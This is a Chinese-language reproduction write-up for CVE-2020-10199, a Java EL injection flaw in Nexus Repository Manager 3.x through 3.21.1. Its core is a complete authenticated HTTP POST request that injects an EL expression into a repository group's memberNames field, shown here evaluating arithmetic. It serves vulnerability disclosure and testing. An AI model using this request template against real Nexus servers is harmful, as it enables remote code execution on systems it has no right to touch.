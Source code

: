 （CVE-2020-10199）Nexus Repository Manager 远程代码执行漏洞
===========================================================

一、漏洞简介
------------

该漏洞允许拥有Nexus Repository Manager 上任何类型帐户的攻击者通过向Nexus
Repository Manager 发出恶意 JavaEL 表达式来执行任意代码。

二、漏洞影响
------------

Nexus Repository Manager 3.x OSS / Pro \<= 3.21.1

三、复现过程
------------

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

    POST /service/rest/beta/repositories/go/group HTTP/1.1
    Host: www.0-sec.org:8081
    Content-Length: 203
    X-Requested-With: XMLHttpRequest
    X-Nexus-UI: true
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.7886248393834028
    Content-Type: application/json
    Accept: */*
    Origin: http://127.0.0.1:8081
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Referer: http://127.0.0.1:8081/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
    Connection: close
     
    {
      "name": "internal",
      "online": true,
      "storage": {
        "blobStoreName": "default",
        "strictContentTypeValidation": true
      },
      "group": {
        "memberNames": ["$\\A{233*233*233}"]
      }
    }

### （1）尝试执行233*233*233，成功返回结果

![1.png](./resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId25.png)
